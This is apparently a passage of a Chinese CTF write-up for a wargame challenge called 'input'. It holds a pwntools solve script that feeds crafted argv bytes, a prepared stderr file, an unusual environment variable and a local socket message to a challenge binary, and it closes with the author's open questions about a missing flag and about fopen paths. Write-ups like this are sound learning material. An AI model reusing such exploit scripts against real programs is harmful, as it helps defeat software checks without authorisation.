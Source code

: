 emmmm，很奇怪，看日志是全部过关了，但是没有给我 flag。

## 3 EXP

```python
from pwn import *

# cmd = ["./input"]
cmd = ["/home/input2/input"]
for i in range(1, 100):
    if i == 65:
        cmd.append(b"\x00")
    elif i == 66:
        cmd.append(b"\x20\x0a\x0d")
    elif i == 67:
        cmd.append(b"50008")
    else:
        cmd.append(str.encode("{}".format(i)))

print("[info] cmd = {}".format(cmd))

f = open("/tmp/stderr", "wb+")
f.write(b"\x00\x0a\x02\xff")
f.close()

f = open("\x0a", "wb+")
f.write(b"\x00\x00\x00\x00")
f.close()

io = process(cmd, env = {"\xde\xad\xbe\xef": "\xca\xfe\xba\xbe"}, stderr=open("/tmp/stderr"))

io.sendline(b"\x00\x0a\x00\xff")

io.recvuntil("Stage 4 clear!")
client = socket.socket()
client.connect(("127.0.0.1", 50008))
client.send(b"\xde\xad\xbe\xef")

io.interactive()
```

## 存疑

1. 为啥都过关了没有 flag？
2. `fopen` 是相对路径还是绝对路径？为啥在 `/tmp` 路径下的脚本新建文件 `"\x0a"`，在 `/home/input2/` 路径下的 `input` 程序可以同样以 "\x0a" 读到。